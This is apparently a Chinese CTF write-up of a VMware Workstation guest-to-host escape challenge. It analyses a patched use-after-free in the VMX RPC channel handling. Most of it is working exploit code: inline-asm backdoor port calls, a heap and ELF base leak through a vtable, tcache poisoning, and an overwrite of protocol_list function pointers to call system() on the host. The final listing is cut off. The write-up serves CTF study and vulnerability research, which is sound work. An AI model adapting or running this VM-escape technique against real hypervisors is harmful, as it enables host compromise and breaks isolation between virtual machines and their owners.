








# 环境搭建

* 宿主机/虚拟机OS：Ubuntu18.04（kernel 4.15.0-213-generic）
* vmware安装包：[VMware-Workstation-Full-15.0.2-10952284.x86_64.bundle](https://archive.org/download/vmwareworkstationfull15.0.210952284.x8664/VMware-Workstation-Full-15.0.2-10952284.x86_64.bundle)

# 题目分析

先放一个IDA可以直接导入的相关结构体头文件：

```c {hide=true}
/*
   This file has been generated by IDA.
   It contains local type definitions from
   the type library 'vmware-vmx'
*/

#define __int8 char
#define __int16 short
#define __int32 int
#define __int64 long long

/* 368 */
struct channel
{
  int state;
  int protocol_idx;
  char flag;
  char field_9;
  char field_A;
  char field_B;
  int field_C;
  __int64 timestamp;
  int cmd_len;
  int cmd_remain;
  __int64 cmd_buf;
  int size;
  int reply_size;
  __int64 reply_remain;
  __int64 reply_buf;
  __int64 finish_recv_fn;
  reply *reply;
  char cookie_check;
  __attribute__((packed)) __attribute__((aligned(1))) __int64 cookie_data;
  char padding[7] __strlit(C,"UTF-8");
};

/* 372 */
struct __fixed reply
{
  int field_0;
  int field_4;
  __int64 buf;
  int field_10;
  int field_14;
  __int64 conn;
  char close_rpc;
};

/* 369 */
enum $D6C9F73C2BC44F6789DE8AF39034AC8E
{
  MESSAGE_TYPE_OPEN = 0x0,
  MESSAGE_TYPE_SENDSIZE = 0x1,
  MESSAGE_TYPE_SENDPAYLOAD = 0x2,
  MESSAGE_TYPE_RECVSIZE = 0x3,
  MESSAGE_TYPE_RECVPAYLOAD = 0x4,
  MESSAGE_TYPE_RECVSTATUS = 0x5,
  MESSAGE_TYPE_CLOSE = 0x6,
};

/* 370 */
typedef enum $D6C9F73C2BC44F6789DE8AF39034AC8E MessageType;

/* 371 */
struct __fixed protocol
{
  char flag;
  int magic;
  __int64 channel_open_fn;
  __int64 channel_open_param;
  __int64 handle_cmd_fn;
  __int64 handle_cmd_param;
  __int64 close_channel_fn;
  __int64 close_channel_param;
  __int64 state;
};
```

使用Bindiff可以看到patch如下：



在`channel_recv_finish`阶段，去掉了`channel->reply_buf = 0`构造了UAF（但是这里没有free就直接将指针置空很奇怪，继续往后看就清楚了），并把`v16 & 1`改成了`v16 & 0x21`：



随便执行一条`info-set guestinfo.a AAA...`命令，在`$rebase(0x1893EF)`处下断点，可以看到`finish_recv_fn`为`$rebase(0x177700)`：



传入的`a3 == v16 & 0x21`，故会调用`free`释放`*(reply+8)`（即`reply->buf`），gdb查看`reply`结构体：

```gdb
pwndbg> tele $rdi
00:0000│ rdi 0x55e72a1faf90 ◂— 0x1
01:0008│     0x55e72a1faf98 —▸ 0x7f8ba00a1a30 ◂— 0x002031 ('1 ') # reply->buf
02:0010│     0x55e72a1fafa0 ◂— 0x2
03:0018│     0x55e72a1fafa8 ◂— 0x0
... ↓        4 skipped
```

此时`channel`结构体如下，可以看到`reply->buf`和`channel->reply_buf`其实指向的是同一片内存：

```gdb
pwndbg> tele $rbx 0x60/8
00:0000│ rbx 0x55e72a1fc720 ◂— 0x1
01:0008│     0x55e72a1fc728 ◂— 0x0
02:0010│     0x55e72a1fc730 ◂— 0xb1964b9
03:0018│     0x55e72a1fc738 ◂— 0x115
04:0020│     0x55e72a1fc740 —▸ 0x7f8ba0019200 ◂— 0x7465732d6f666e69 ('info-set')
05:0028│     0x55e72a1fc748 ◂— 0x200000116
06:0030│     0x55e72a1fc750 ◂— 0x0
07:0038│     0x55e72a1fc758 —▸ 0x7f8ba00a1a30 ◂— 0x002031 ('1 ') # channel->reply_buf
08:0040│     0x55e72a1fc760 —▸ 0x55e72938a700 ◂— push rbp
09:0048│     0x55e72a1fc768 —▸ 0x55e72a1faf90 ◂— 0x1
0a:0050│     0x55e72a1fc770 ◂— 0x88efd710371ba801
0b:0058│     0x55e72a1fc778 ◂— 0xf3
```

因此，经过上述两处patch，执行channel_recv_finish将释放`channel->reply_buf`构造出UAF。也就是说，只要在channel_recv_finish控制`v16=0x21`就可以触发漏洞，又`v16 = sub_1D8D00(3)`，在`$rebase(0x1893DF)`处下断点步入函数，并单步步过到`$rebase(0x4F3FEA)`，可以看到`sub_1D8D00`其实取的就是我们传入的参数：

```gdb
pwndbg> x /32gx $rax + 0x20
0x7fdf25b17fa0:	0x00000000564d5868	0x000000000005001e # rax rcx
0x7fdf25b17fb0:	0x0000000000015658	0x0000000000000001 # rdx rbx
```

`v16 = sub_1D8D00(3)`即我们传入的rbx的值，由此可以写出触发漏洞函数：

```c
void channel_recv_finish21(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t" // rbx = 0x21
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
```


# 利用过程

## leak

首先我们要泄露程序基址，使用其他命令的结构体占用UAF的chunk，从而泄露出指针。

这里我们借用`vmx.capability.dnd_version`这条命令，由字符串可以搜到处理函数为`sub_10F3E0`，跟进`sub_163E80`，根据调试来看`sub_163E80`中的三个分支在第一次执行时都会进入（类似于初始化，所以重复运行exp就无法再次泄露了），且每个分支中都会在堆块存储vtable地址。以第一个分支为例，申请0xf0大小的内存（0x100 chunk），并在堆块起始位置存放了vtable的地址：



> `sub_10F3E0`中的`v9`为我们设置的`dnd_version`，这里可以先执行`tools.capability.dnd_version 4`将其设置为4。

所以我们可以构造一个0x100 chunk触发UAF，之后通过该命令占用chunk：

```c {hide=true}
uint64_t elf_base = 0,
         heap_base = 0;

void leak() {
    struct channel chan[2] = { 0, };
    char *cmd = NULL;

    // 'A'*0xe8
    run_cmd("info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    run_cmd("tools.capability.dnd_version 4");

    int res = 0,
        len = 0,
        i = 0;
    char *data = NULL;

    /* chan[0]: prepare 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_open(&chan[0].cookie1, &chan[0].cookie2, &chan[0].num, &res);
    if(!res) {
        printf("chan[0]: fail to open channel!\n");
        return;
    }

    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), &res);
    if(!res) {
        printf("chan[0]: fail to set len\n");
        return;
    }
    printf("chan[0]: channel_set_len: %ld\n", strlen(cmd));

    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd)+0x10, cmd, &res);
    printf("chan[0]: channel_send_data: %s\n", cmd);

    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    if(!res) {
        printf("chan[0]: fail to recv data len\n");
        return;
    }
    printf("chan[0]: channel_recv_reply_len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len+0x10; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);
    free(data);

    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    if(!res) {
        printf("chan[0]: fail to recv finish\n");
    }
    printf("chan[0]: channel_recv_finish21\n");

    /* overwrite 0x100 chunk */
    run_cmd("vmx.capability.dnd_version");
    printf("[!] b *$rebase(0x00000000001896bd)");
    getchar();
    
    /* chan[0]: leak 0x100 chunk data */
    memset(data, 0, len+0x10);
    for(int i = 0; i < len+0x10; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);
    // elf_base = ((uint64_t *)data)[0] - 0xf819b0;
    // heap_base = ((uint64_t *)data)[2] - 0x89070;
    // printf("[+] elf base: %p\n", elf_base);
    // printf("[+] heap base: %p\n", heap_base);
    hex_dump64(data, len);
}
```

> 分别在`$rebase(0x177766)`和`$rebase(0x169150)`处下断点，看释放和分配的堆块是否相同。

在`$rebase(0x1896bd)`下断点，可以看到此时已经成功占用UAF chunk，之后如果直接再次调用`channel_recv_reply_len -> channel_recv_data`，此时`channel->remain == 0`无法输出内容：

```gdb
pwndbg> tele $rbx 12
00:0000│ rax rbx 0x55d8b35cc6c0 ◂— 0x4
01:0008│         0x55d8b35cc6c8 ◂— 0x0
02:0010│         0x55d8b35cc6d0 ◂— 0x3a20293
03:0018│         0x55d8b35cc6d8 ◂— 0x14
04:0020│         0x55d8b35cc6e0 —▸ 0x7fa3f00646f0 ◂— 'info-get guestinfo.a'
05:0028│         0x55d8b35cc6e8 ◂— 0xea00000015
06:0030│         0x55d8b35cc6f0 ◂— 0x0  #-----> channel->reply_remain == 0
07:0038│         0x55d8b35cc6f8 —▸ 0x7fa3f004d810 —▸ 0x55d8b35649b0 (vtable for FileTransferRpcV4+16) —▸ 0x55d8b277be40 ◂— mov rax, qword ptr [rip + 0xe0ae41]
08:0040│         0x55d8b35cc700 —▸ 0x55d8b275a700 ◂— push rbp
09:0048│         0x55d8b35cc708 —▸ 0x55d8b35caf68 ◂— 0x1
0a:0050│         0x55d8b35cc710 ◂— 0x500d32dc1633b301
0b:0058│         0x55d8b35cc718 ◂— 0xcb
```

此时`state=1`，根据状态转移图再执行一次`channel_set_len -> channel_send_data -> channel_recv_reply_len -> channel_recv_data`，经过调试发现`channel->reply_remain`也还是0。**但是再次执行`channel_recv_reply_len -> channel_recv_finish`可以无数次释放buf**：

```text
                                (4)channel_recv_reply_len     reply_len!=0               reply_len==0
                             ┌────────────────────────────────────┬──────────────────────────┐
                             │                                    │                          │
         (1)channel_open     │      (2)channel_set_len            ▼    (5)channel_recv_data  ▼
state=0 ─────────────────► state=1 ─────────────────► state=2   state=3 ─────────────────► state=4
                             ▲                          │                                    │
                             └──────────────────────────┘                                    │
                             │  (3)channel_send_data                                         │
                             │                                                               │
                             └───────────────────────────────────────────────────────────────┘
                                (6)channel_recv_finish
```

那么我们就需要用两个channel来完成泄露，一个负责释放buf，一个负责输出buf：

```c {hide=true}
uint64_t elf_base = 0,
         heap_base = 0;

void leak() {
    struct channel chan[2] = { 0, };
    char *cmd = NULL;
    char *data = NULL;
    int res = 0, len = 0;
  
    // 'A'*0xe8 -> 0x100 chunk
    run_cmd("info-set guestinfo.a AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    run_cmd("tools.capability.dnd_version 4");

    /* chan[0]: prepare to free 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_open(&chan[0].cookie1, &chan[0].cookie2, &chan[0].num, &res);

    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), &res);
    printf("chan[0]: channel_set_len: %ld\n", strlen(cmd));

    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), cmd, &res);
    printf("chan[0]: channel_send_data: %s\n", cmd);

    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    printf("chan[0]: channel_recv_reply_len: %d\n", len);

    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);

    /* chan[1]: prepare to alloc 0x100 chunk */
    cmd = "info-get guestinfo.a";
    channel_open(&chan[1].cookie1, &chan[1].cookie2, &chan[1].num, &res);

    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd), &res);
    printf("chan[1]: channel_set_len: %ld\n", strlen(cmd));

    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, strlen(cmd)-4, "info-get guestin", &res); // except last 4 byets
    printf("chan[1]: channel_send_data: %s\n", cmd);

    /* chan[0]: free 0x100 chunk */
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: alloc 0x100 chunk */
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 4, "fo.a", &res); // send last 4 byets
    printf("chan[1]: channel_send_data: %s\n", "fo.a");

    /* chan[0]: free 0x100 chunk again */
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    printf("chan[0]: channel_recv_reply_len: %d\n", len);
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* overwrite 0x100 chunk */
    run_cmd("vmx.capability.dnd_version");
    // printf("[!] b *$rebase(0x00000000001896bd)");
    // getchar();
    
    /* chan[1]: leak 0x100 chunk data */
    channel_recv_reply_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, &len, &res);
    printf("chan[1]: channel_recv_reply_len: %d\n", len);

    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, i, data, &res);
    }
    //hex_dump64(data, len);
    elf_base = ((uint64_t *)data)[0] - 0xf819b0;
    heap_base = ((uint64_t *)data)[2] - 0x89070;
    printf("[+] elf base: %p\n", elf_base);
    printf("[+] heap base: %p\n", heap_base);
  
    free(data);
}
```


## exploit

同理，用UAF覆写一个程序内会被调用的函数指针完成利用。

这里使用的是ubuntu18.04的虚拟机，libc版本为2.27，tcache没有safe-unlinking防护，直接修改tcache bin指针即可（这里我用0x50的tcache bin）。

可以看到执行`channel_open`时会调用`(protocol_list[0].open_channel_fn)(protocol_list[0].open_channel_param)`：



protocol结构体定义如下：

```c
struct __fixed protocol
{
  char flag;
  int magic;
  __int64 channel_open_fn;
  __int64 channel_open_param;
  __int64 handle_cmd_fn;
  __int64 handle_cmd_param;
  __int64 close_channel_fn;
  __int64 close_channel_param;
  __int64 state;
};
```

函数和参数指针分别在`protocol_list+8`和`protocol_list+0x10`的位置，故我们可以覆写这两个指针分别为`system`和`"/usr/bin/xcalc"`（或`"gnome-calculator"`）。

经过调试，`protocol_list`上方有一片0x20字节对齐用的padding，正好可以将参数字符串写入该空白区域，只需要一次输入就可以完成写参数字符串和覆盖指针：



```gdb
pwndbg> x /32gx 0x563e98e2b5a0-0x18
0x563e98e2b588:	0x0000000000000000	0x0000000000000000 # align padding
0x563e98e2b598:	0x0000000000000000	0x4943505200000001
0x563e98e2b5a8:	0x0000000000000000	0x0000000000000000
0x563e98e2b5b8:	0x0000563e97fb9ce0	0x0000000000000000
0x563e98e2b5c8:	0x0000563e97fb8490	0x0000000000000000
0x563e98e2b5d8:	0x0000000000000001	0x4f4c435400000001
0x563e98e2b5e8:	0x0000000000000000	0x0000000000000000
0x563e98e2b5f8:	0x0000563e97fba0c0	0x0000000000000000
0x563e98e2b608:	0x0000563e97fb8940	0x0000000000000000
0x563e98e2b618:	0x0000000000000001  0x0000000000000000
```

利用过程如下：

```c {hide=true}
void exploit() {
    uint64_t target_fn = elf_base + 0xFE95A0 + 0x8;
    uint64_t target_param = elf_base + 0xFE95A0 + 0x10;
    uint64_t system_plt = elf_base + 0xECFD0;
    uint64_t param_buf = elf_base + 0xFE95A0 - 0x18;

    struct channel chan[6] = { 0, };
    char *cmd = NULL;
    char *data = NULL;
    int res = 0, len = 0;

    // 'B'*0x38
    run_cmd("info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB");

    for (int i = 0; i < 4; i++)
        channel_open(&chan[i].cookie1, &chan[i].cookie2, &chan[i].num, &res);

    /* chan[0]: alloc 0x50 chunk */
    cmd = "info-get guestinfo.b";
    channel_set_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), &res);
    channel_send_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, strlen(cmd), cmd, &res);
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    data = malloc(len+0x10);
    memset(data, 0, len+0x10);
    for(int i = 0; i < len; i += 4) {
        channel_recv_data(chan[0].cookie1, chan[0].cookie2, chan[0].num, i, data, &res);
    }
    printf("chan[0]: recv data: %s\n",data);

    /* chan[0]: free 0x50 chunk */
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: alloc 0x50 chunk */
    channel_set_len(chan[1].cookie1, chan[1].cookie2, chan[1].num, 0x40, &res);

    /* chan[0]: free 0x50 chunk again */
    channel_recv_reply_len(chan[0].cookie1, chan[0].cookie2, chan[0].num, &len, &res);
    channel_recv_finish21(chan[0].cookie1, chan[0].cookie2, chan[0].num, &res);
    printf("chan[0]: channel_recv_finish21\n");

    /* chan[1]: fake 0x50 tcache next ptr */
    channel_send_data(chan[1].cookie1, chan[1].cookie2, chan[1].num, 8, (char *)&param_buf, &res); // fake next
    printf("chan[1]: channel_send_data: %p\n", target_fn);

    /* chan[3]: overwrite target_fn and target_param */
    channel_set_len(chan[2].cookie1, chan[2].cookie2, chan[2].num, 0x40, &res);
    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x40, &res);

    // char *param = "gnome-calculator";
    char *param = "/usr/bin/xcalc";
    uint64_t payload[0x48/8] = { 0, };
    memcpy((char *)payload, param, strlen(param)+1);
    payload[3] = 0x4943505200000001; // flag magic
    payload[4] = system_plt;
    payload[5] = param_buf;

    //printf("b *$rebase(0x000000000018958F)");
    //getchar();
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x18+0x18, payload, &res);
    printf("chan[3]: channel_send_data: %s %p %p\n", param, system_plt, param_buf);

    free(data);
}
```

> [!tips]
>
> 除此方法外，还可以覆盖`protocol_list[0]->handle_cmd_fn/handle_cmd_param`或`protocol_list[0]->close_channel_fn/close_channel_param`，只是会在不同阶段调用：
>
> 
>
> 

# Exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}

void channel_send_data(int cookie1,int cookie2,int channel_num,int len,char *data,int *res){
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $0,%%r12\n\t"
